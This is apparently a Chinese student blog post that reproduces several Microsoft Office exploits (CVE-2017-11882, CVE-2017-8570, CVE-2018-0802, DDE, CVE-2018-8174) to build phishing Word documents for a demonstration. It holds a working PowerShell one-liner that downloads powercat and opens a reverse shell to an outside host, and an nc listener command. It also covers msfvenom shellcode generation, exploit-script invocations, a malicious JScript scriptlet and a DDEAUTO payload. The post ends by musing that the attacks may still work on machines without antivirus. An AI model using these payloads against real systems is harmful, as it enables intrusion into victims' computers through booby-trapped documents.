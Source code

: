 新的一年迎新又开始啦，回想一年前这个时候的自己，算是有那么一丢丢的进步了吧。一年前的时候，貌似php都不会2333，浏览器的开发者工具都不晓得，
貌似就会搭一个wifi，hahah，扎心了，新的一年努力学习吧骚年！！！
这次迎新让同学们见识下钓鱼邮件是什么样子的，主要放的是word文档，也可以整理下office这两年爆出的漏洞，虽然说过不了360的吧，但是演示起来很酷的呀～

##CVE-2017-11882
其实复现起来都很好说，github上都给了生成文件的脚本了 [链接](https://github.com/unamer/CVE-2017-11882)
首先为了实际钓鱼中应用，先弹个shell再说，找到了两种方式，一种是powershell 反弹一句话，另一种是直接写入shellcode运行，先看第一种
powershell一句话反弹shell
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 9999 -e cmd
```
[参考链接](https://www.anquanke.com/post/id/99793)

然后利用脚本构造恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/81.png)

kali上nc监听端口等待连接 ````nc -lvp 9999````
目标打开恶意word文档后 shell反弹回来

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/82.png)

第二种方式先用msfvenom生成shellcode

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/83.png)

然后利用脚本生成恶意word文档

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/84.png)

目标打开文档后msf上线

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/85.png)

不过后来考虑了下，同学们应该get不到上面操作的含义，所以直接来个简单直接的办法

````python a.py -c "cmd.exe /c start ssText3d.scr /s" -o 1.doc````
同学们打开恶意文档后就会出现如下文字

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/86.png)

##CVE-2017-8570

[Github脚本链接](https://github.com/rxwx/CVE-2017-8570)

实现跳出文字的效果，这里要注意一下，先要修改calc.sct文件

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c start ssText3d.scr /s");
	
	
]]>
</script>

</scriptlet>
```
然后利用脚本生成恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/87.png)

这个是远程下载文件calc.sct修改方式

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/88.png)

没有尝试powershell一句话，应该可以的吧

##CVE-2018-0802

这个是对CVE-2017-11882补丁的一个绕过 github脚本很详细了 [链接](https://github.com/rxwx/CVE-2018-0802)

##DDT
这个用不到office宏 复现很简单

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/89.png)

改成````DDEAUTO C:\\windows\\system32\\cmd.exe "/c start ssText3d.scr /s"````

但是应用的时候要目标点击”是“才行

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/810.png)

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/811.png)

##CVE-2018-8174

这个直接就有msf的脚本呀 放上链接 [链接](https://github.com/0x09AL/CVE-2018-8174-msf)

but这些实际当中还能用嚒，可能会碰上没装杀软的吧hahaha......
